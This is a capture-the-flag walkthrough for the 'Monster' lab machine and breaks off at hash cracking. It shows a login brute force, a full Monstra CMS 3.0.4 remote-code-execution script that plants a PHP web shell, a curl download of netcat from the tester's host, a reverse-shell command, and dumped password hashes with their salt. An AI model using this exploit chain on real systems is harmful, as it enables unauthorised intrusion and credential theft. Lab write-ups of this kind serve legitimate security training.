



# Monster

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Easy
Community Rating: Very hard
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Windows
Points: 10
Number of Flags: 2
Lab Description:
This lab demonstrates leveraging a weak password to access Monstra CMS, extracting password hashes from 
its backup system, and cracking them to gain RDP access. Privilege escalation is achieved by exploiting 
a writable xampp-control.ini file to inject a reverse shell payload, triggered upon interaction with 
the XAMPP Control Panel by an administrator. This lab emphasizes web application exploitation, credential 
cracking, and local privilege escalation through misconfigured services.
Released: 7 Mar 2022
```

Machine link: [https://portal.offsec.com/machine/monster-37024/overview/details](https://portal.offsec.com/machine/monster-37024/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ export TARGET_IP=192.168.118.180

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ sudo nmap -sV -sC -p- $TARGET_IP     
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-29 16:21 CEST
Nmap scan report for 192.168.118.180
Host is up (0.037s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.3.10)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Mike Wazowski
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.3.10
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.3.10)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.3.10
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_http-title: Mike Wazowski
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Mike-PC
| Not valid before: 2025-09-28T14:17:12
|_Not valid after:  2026-03-30T14:17:12
|_ssl-date: 2025-09-29T14:24:33+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: MIKE-PC
|   NetBIOS_Domain_Name: MIKE-PC
|   NetBIOS_Computer_Name: MIKE-PC
|   DNS_Domain_Name: Mike-PC
|   DNS_Computer_Name: Mike-PC
|   Product_Version: 10.0.19041
|_  System_Time: 2025-09-29T14:24:18+00:00
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-09-29T14:24:20
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 211.20 seconds
```

We have five main services running and available:

- Apache httpd 2.4.41 running on port 80 and 443
- Microsoft Windows RPC running on port 135
- NetBIOS Session Service running on port 139
- SMB running on port 445
- Microsoft Terminal Service running on port 3389

In addition, we have unknown services running on port 5040 and 7680.

### Check out the web site

Manually browsing port 80 shows a "homepage" of Mike Wazowski


We scan for additional directories and files with `feroxbuster`

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ feroxbuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -n -C 404 -x html,php,txt -u http://$TARGET_IP

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.118.180
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [html, php, txt]
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       42l       97w     1048c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET       44l      102w     1060c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      781l     1212w    12910c http://192.168.118.180/assets/fonts/simple-line-icons.css
200      GET      209l      473w     5773c http://192.168.118.180/assets/css/nivo-lightbox.css
200      GET      411l      919w    14762c http://192.168.118.180/assets/js/nivo-lightbox.js
200      GET      187l      700w    50481c http://192.168.118.180/assets/img/gallery/img-4.jpg
200      GET     1130l     2227w    19253c http://192.168.118.180/assets/css/main.css
200      GET        4l     1305w    84345c http://192.168.118.180/assets/js/jquery-min.js
200      GET      491l     2474w   185951c http://192.168.118.180/assets/img/gallery/img-5.jpg
200      GET        7l       74w     4210c http://192.168.118.180/assets/img/logo.png
200      GET        8l      165w     8044c http://192.168.118.180/assets/js/waypoints.min.js
200      GET      184l      561w     5693c http://192.168.118.180/assets/js/wow.js
200      GET      205l     1368w     8097c http://192.168.118.180/assets/js/jquery.easing.min.js
200      GET      471l     1389w    16748c http://192.168.118.180/assets/js/jquery.slicknav.js
200      GET      539l     1442w    22916c http://192.168.118.180/index.html
200      GET        8l       36w     1074c http://192.168.118.180/assets/js/jquery.counterup.min.js
200      GET      233l      947w    75881c http://192.168.118.180/assets/img/gallery/img-6.jpg
200      GET     2098l     4589w    50986c http://192.168.118.180/assets/js/jquery.mixitup.js
200      GET     2744l     4898w    57095c http://192.168.118.180/assets/css/animate.css
301      GET        9l       30w      342c http://192.168.118.180/blog => http://192.168.118.180/blog/
200      GET        7l      567w    48944c http://192.168.118.180/assets/js/bootstrap.min.js
200      GET      142l      363w     3053c http://192.168.118.180/assets/css/slicknav.css
200      GET       81l      187w     1465c http://192.168.118.180/assets/css/responsive.css
200      GET      317l     1506w   118529c http://192.168.118.180/assets/img/gallery/img-1.jpg
200      GET       19l       75w     2917c http://192.168.118.180/assets/js/jquery.nav.js
200      GET       94l      162w     2406c http://192.168.118.180/assets/js/main.js
200      GET      192l      668w    49634c http://192.168.118.180/assets/img/gallery/img-2.jpg
200      GET       54l      353w    34279c http://192.168.118.180/assets/img/about/mike.jpg
200      GET        7l     1513w   144877c http://192.168.118.180/assets/css/bootstrap.min.css
200      GET        5l      347w    19038c http://192.168.118.180/assets/js/popper.min.js
200      GET      265l     1080w    78976c http://192.168.118.180/assets/img/gallery/img-3.jpg
200      GET        4l       66w    29062c http://192.168.118.180/assets/fonts/font-awesome.min.css
200      GET      539l     1442w    22916c http://192.168.118.180/
301      GET        9l       30w      344c http://192.168.118.180/assets => http://192.168.118.180/assets/
200      GET      539l     1442w    22916c http://192.168.118.180/Index.html
301      GET        9l       30w      342c http://192.168.118.180/Blog => http://192.168.118.180/Blog/
503      GET       39l       98w     1062c http://192.168.118.180/examples
403      GET       45l      113w     1207c http://192.168.118.180/licenses
301      GET        9l       30w      344c http://192.168.118.180/Assets => http://192.168.118.180/Assets/
200      GET      539l     1442w    22916c http://192.168.118.180/INDEX.html
403      GET       45l      113w     1207c http://192.168.118.180/phpmyadmin
403      GET       45l      113w     1207c http://192.168.118.180/webalizer
[####################] - 7m    350792/350792  0s      found:40      errors:9      
[####################] - 7m    350600/350600  838/s   http://192.168.118.180/   
```

Checking `http://192.168.118.180/blog/` shows Mike's blog powered by `Monstra 3.0.4`



Most link references the host `monster.pg` so we add it to our `/etc/hosts` file

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ sudo vi /etc/hosts                             
[sudo] password for kali: 

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ grep monster /etc/hosts 
192.168.118.180 monster.pg
```

Reloading the page and using the hostname (`http://monster.pg/blog/`) shows a much nicer page



Checking `http://monster.pg/blog/users` shows two current users:

- admin
- mike

### Bruteforce the login

We do a test login with `admin:admin` and capture the request with Burp.

```text
POST /blog/users/login HTTP/1.1
Host: monster.pg
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 95
Origin: http://monster.pg
Connection: keep-alive
Referer: http://monster.pg/blog/users/login
Cookie: PHPSESSID=280t6tf8dfr2vuv92k79d5c9m5; _ga=GA1.2.237285941.1759157523; _gid=GA1.2.988466885.1759157523
Upgrade-Insecure-Requests: 1
Priority: u=0, i

csrf=152c21997fbd9afa0a6b27728fc1e1aad33c0294&username=admin&password=admin&login_submit=Log+In
```

The request is then sent to Burp's Intruder. The `Cluster bomb attack` will be used.

As users we will try both `admin` and `mike`.

As a password list we will crawl this web site with `cewl`

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ cewl --lowercase -w cewl_custom_pws.txt http://monster.pg
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ wc -l cewl_custom_pws.txt                                                                                                                   
176 cewl_custom_pws.txt
```



The `admin` user have the password `wazowski`!

### Search for exploits

Now that we have credentials, let's search for any available exploits

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ searchsploit monstra     
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Monstra 3.0.4 - Stored Cross-Site Scripting (XSS)                                                                                                     | php/webapps/51519.txt
Monstra CMS 1.2.0 - 'login' SQL Injection                                                                                                             | php/webapps/38769.txt
Monstra CMS 1.2.1 - Multiple HTML Injection Vulnerabilities                                                                                           | php/webapps/37651.html
Monstra CMS 3.0.3 - Multiple Vulnerabilities                                                                                                          | php/webapps/39567.txt
Monstra CMS 3.0.4 - (Authenticated) Arbitrary File Upload / Remote Code Execution                                                                     | php/webapps/43348.txt
Monstra CMS 3.0.4 - Arbitrary Folder Deletion                                                                                                         | php/webapps/44512.txt
Monstra CMS 3.0.4 - Authenticated Arbitrary File Upload                                                                                               | php/webapps/48479.txt
Monstra cms 3.0.4 - Persitent Cross-Site Scripting                                                                                                    | php/webapps/44502.txt
Monstra CMS 3.0.4 - Remote Code Execution (Authenticated)                                                                                             | php/webapps/49949.py
Monstra CMS 3.0.4 - Remote Code Execution (RCE)                                                                                                       | php/webapps/52038.py
Monstra CMS < 3.0.4 - Cross-Site Scripting (1)                                                                                                        | php/webapps/44855.py
Monstra CMS < 3.0.4 - Cross-Site Scripting (2)                                                                                                        | php/webapps/44646.txt
Monstra-Dev 3.0.4 - Cross-Site Request Forgery (Account Hijacking)                                                                                    | php/webapps/45164.txt
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ searchsploit -m 52038
  Exploit: Monstra CMS 3.0.4 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/52038
     Path: /usr/share/exploitdb/exploits/php/webapps/52038.py
    Codes: N/A
 Verified: False
File Type: HTML document, Unicode text, UTF-8 text
Copied to: /mnt/hgfs/OffSec_PG/PG_Practice/Monster/52038.py


┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ cat 52038.py                
# Exploit Title: Monstra CMS 3.0.4 - Remote Code Execution (RCE)
# Date: 05.05.2024
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://monstra.org/
# Software Link: https://monstra.org/monstra-3.0.4.zip
# Version: 3.0.4
# Tested on: MacOS

import requests
import random
import string
import time
import re
import sys

if len(sys.argv) < 4:
print("Usage: python3 script.py <url> <username> <password>")
sys.exit(1)

base_url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]

session = requests.Session()

login_url = f'{base_url}/admin/index.php?id=dashboard'
login_data = {
'login': username,
'password': password,
'login_submit': 'Log+In'
}

filename = ''.join(random.choices(string.ascii_lowercase + string.digits, k=
5))

print("Logging in...")
response = session.post(login_url, data=login_data)

if 'Dashboard' in response.text:
print("Login successful")
else:
print("Login failed")
exit()

time.sleep(3)

edit_url = f'{base_url}/admin/index.php?id=themes&action=add_chunk'
response = session.get(edit_url) # CSRF token bulmak için edit sayfasına
erişim

token_search = re.search(r'input type="hidden" id="csrf" name="csrf" value="
(.*?)"', response.text)
if token_search:
token = token_search.group(1)
else:
print("CSRF token could not be found.")
exit()

content = '''
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>
'''

edit_data = {
'csrf': token,
'name': filename,
'content': content,
'add_file': 'Save'
}

print("Preparing shell...")
response = session.post(edit_url, data=edit_data)
time.sleep(3)

if response.status_code == 200:
print(f"Your shell is ready: {base_url}/public/themes/default/{filename}
.chunk.php")
else:
print("Failed to prepare shell.")   
```

This exploit will give us a web shell.

It is also BROKEN because it lacks proper indentation and includes faulty linebreaks.

The fixed version looks like this

```python
# Exploit Title: Monstra CMS 3.0.4 - Remote Code Execution (RCE)
# Date: 05.05.2024
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://monstra.org/
# Software Link: https://monstra.org/monstra-3.0.4.zip
# Version: 3.0.4
# Tested on: MacOS

import requests
import random
import string
import time
import re
import sys

if len(sys.argv) < 4:
    print("Usage: python3 script.py <url> <username> <password>")
    sys.exit(1)

base_url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]

session = requests.Session()

login_url = f'{base_url}/admin/index.php?id=dashboard'
login_data = {
    'login': username,
    'password': password,
    'login_submit': 'Log+In'
}

filename = ''.join(random.choices(string.ascii_lowercase + string.digits, k=5))

print("Logging in...")
response = session.post(login_url, data=login_data)

if 'Dashboard' in response.text:
    print("Login successful")
else:
    print("Login failed")
    exit()

time.sleep(3)

edit_url = f'{base_url}/admin/index.php?id=themes&action=add_chunk'
response = session.get(edit_url) # CSRF token bulmak için edit sayfasınaerişim

token_search = re.search(r'input type="hidden" id="csrf" name="csrf" value="(.*?)"', response.text)
if token_search:
    token = token_search.group(1)
else:
    print("CSRF token could not be found.")
    exit()

content = '''
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>
'''

edit_data = {
    'csrf': token,
    'name': filename,
    'content': content,
    'add_file': 'Save'
}

print("Preparing shell...")
response = session.post(edit_url, data=edit_data)
time.sleep(3)

if response.status_code == 200:
    print(f"Your shell is ready: {base_url}/public/themes/default/{filename}.chunk.php")
else:
    print("Failed to prepare shell.")
```

### Get a web shell

Now we try out the exploit

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ python 52038.py 
Usage: python3 script.py <url> <username> <password>

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ python 52038.py http://monster.pg/blog admin wazowski
Logging in...
Login successful
Preparing shell...
Your shell is ready: http://monster.pg/blog/public/themes/default/kra5f.chunk.php
```

Navigating to `http://monster.pg/blog/public/themes/default/kra5f.chunk.php` and executing `dir` we get

```text
 Volume in drive C has no label.
 Volume Serial Number is 08DF-534D

 Directory of C:\xampp\htdocs\blog\public\themes\default

09/29/2025  09:14 AM              .
09/29/2025  09:14 AM              ..
04/05/2016  10:52 PM               815 blog-post.template.php
04/05/2016  10:52 PM               738 blog.template.php
02/21/2022  11:43 PM              css
04/05/2016  10:52 PM                89 footer-links.chunk.php
04/05/2016  10:52 PM               317 footer.chunk.php
04/05/2016  10:52 PM             4,019 header.chunk.php
04/05/2016  10:52 PM               601 index.template.php
09/29/2025  09:14 AM               282 kra5f.chunk.php
               7 File(s)          6,861 bytes
               3 Dir(s)   6,935,097,344 bytes free
```

So we have code execution.

### Get the user flag

Now we can get the user flag by executing `type C:\Users\mike\Desktop\local.txt`.

```text
1<REDACTED>5
```

### Upload netcat

We start Apache2 that shares `nc64.exe` among other things

```bash
┌──(kali㉿kali)-[/var/www/html]
└─$ ls    
chisel_1.8.1  index.nginx-debian.html  nc64.exe  nc.exe          plink.exe      SharpHound2.ps1  SharpHound.ps1  upload.php  winPEAS.ps1
index.html    jaws-enum.ps1            ncat      nc.traditional  PowerView.ps1  SharpHound.exe   upload.html     uploads     winPEASx64.exe

┌──(kali㉿kali)-[/var/www/html]
└─$ sudo systemctl start apache2  
[sudo] password for kali: 
```

Next, we download it with `curl` through the web shell  
`curl.exe http://192.168.45.167/nc64.exe -o C:\Users\Mike\Downloads\nc64.exe`

We verify the download by checking the Downloads directory  
`dir C:\Users\mike\Downloads`

```text
 Volume in drive C has no label.
 Volume Serial Number is 08DF-534D

 Directory of C:\Users\mike\Downloads

09/29/2025  09:27 AM              .
09/29/2025  09:27 AM              ..
09/29/2025  09:27 AM            45,272 nc64.exe
               1 File(s)         45,272 bytes
               2 Dir(s)   6,934,761,472 bytes free
```

We start a netcat listener on port 443

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ nc -lvnp 443         
listening on [any] 443 ...

```

And then start netcat via the web shell  
`C:\Users\mike\Downloads\nc64.exe 192.168.45.167 443 -e cmd.exe`

Checking back at the netcat listener we have a connection

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
└─$ nc -lvnp 443         
listening on [any] 443 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.118.180] 50323
Microsoft Windows [Version 10.0.19044.1645]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\blog\public\themes\default>
```

### Enumeration for privilege escalation

We start to check our privileges

```bat
C:\xampp\htdocs\blog\public\themes\default> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\xampp\htdocs\blog\public\themes\default> whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users           Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                    

C:\xampp\htdocs\blog\public\themes\default>
```

We can RDP to the machine with this user.

Next, we search for credentials (`pass`) in various configuration files

```bat
C:\xampp\htdocs\blog\public\themes\default> cd ..
cd ..

C:\xampp\htdocs\blog\public\themes> cd ..
cd ..

C:\xampp\htdocs\blog\public> cd ..
cd ..

C:\xampp\htdocs\blog> cd ..
cd ..

C:\xampp\htdocs> cd ..
cd ..

C:\xampp> findstr /SI /C:"pass" *.ini *.cfg *.config *.xml
findstr /SI /C:"pass" *.ini *.cfg *.config *.xml
htdocs\blog\storage\database\users.table.xml:<root><options><autoincrement>2</autoincrement></options><fields><login/><password/><email/><role/><date_registered/><firstname/><lastname/><login/><twitter/><skype/><hash/><about_me/></fields><users><id>1</id><uid>de58425259</uid><firstname/><lastname/><twitter/><skype/><about_me/><login>admin</login><password>a2b4e80cd640aaa6e417febe095dcbfc</password><email>wazowski@monster.pg</email><hash>jJkdUX1FOFiI</hash><date_registered>1645512776</date_registered><role>admin</role></users><users><id>2</id><uid>800c7d9797</uid><firstname/><lastname/><twitter/><skype/><about_me/><login>mike</login><password>844ffc2c7150b93c4133a6ff2e1a2dba</password><email>mike@monster.pg</email><hash>8vPjvUPDHhRp</hash><date_registered>1645512909</date_registered><role>user</role></users></root>
MercuryMail\MERCURY.INI:TwoPasses:    1    # If NZ, process submission queue in 2 passes
MercuryMail\MERCURY_EXAMPLE.INI:No_NUL_passwords : 1
mysql\bin\my.ini:# The following options will be passed to all MySQL clients
mysql\bin\my.ini:# password       = your_password 
<---snip--->
```

Using [codebeautify.org](https://codebeautify.org/xml-pretty-print) to fix/prettify the XML-data we get

```xml
<root>
    <options>
        <autoincrement>2</autoincrement>
    </options>
    <fields>
        <login/>
        <password/>
        <email/>
        <role/>
        <date_registered/>
        <firstname/>
        <lastname/>
        <login/>
        <twitter/>
        <skype/>
        <hash/>
        <about_me/>
    </fields>
    <users>
        <id>1</id>
        <uid>de58425259</uid>
        <firstname/>
        <lastname/>
        <twitter/>
        <skype/>
        <about_me/>
        <login>admin</login>
        <password>a2b4e80cd640aaa6e417febe095dcbfc</password>
        <email>wazowski@monster.pg</email>
        <hash>jJkdUX1FOFiI</hash>
        <date_registered>1645512776</date_registered>
        <role>admin</role>
    </users>
    <users>
        <id>2</id>
        <uid>800c7d9797</uid>
        <firstname/>
        <lastname/>
        <twitter/>
        <skype/>
        <about_me/>
        <login>mike</login>
        <password>844ffc2c7150b93c4133a6ff2e1a2dba</password>
        <email>mike@monster.pg</email>
        <hash>8vPjvUPDHhRp</hash>
        <date_registered>1645512909</date_registered>
        <role>user</role>
    </users>
</root>
```

We have two password hashes for `mike` and `admin`.

In the `Security.php` file we find how the hashes are created

```bat
C:\xampp\htdocs\blog\engine> type Security.php
type Security.php
<?php defined('MONSTRA_ACCESS') or die('No direct script access.');

<---snip--->
    public static function encryptPassword($password)
    {
        return md5(md5(trim($password) . MONSTRA_PASSWORD_SALT));
    }
<---snip--->
```

The variable `MONSTRA_PASSWORD_SALT` is appended as a salt and then double MD5 is applied.

And the variable is set to `YOUR_SALT_HERE`

```bat
C:\xampp\htdocs\blog\engine> cd ..
cd ..

C:\xampp\htdocs\blog> findstr /SI /C:"MONSTRA_PASSWORD_SALT" *
findstr /SI /C:"MONSTRA_PASSWORD_SALT" *
boot\defines.php:define('MONSTRA_PASSWORD_SALT', 'YOUR_SALT_HERE');
engine\boot\defines.php:define('MONSTRA_PASSWORD_SALT', 'YOUR_SALT_HERE');
engine\Security.php:        return md5(md5(trim($password) . MONSTRA_PASSWORD_SALT));
FINDSTR: Cannot open public\uploads\.empty
```

### Crack the hashes

We create a `salt.txt` file and then try to crack the hashes with `hashcat` using the combination attack (`-a 1`)

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Monster]
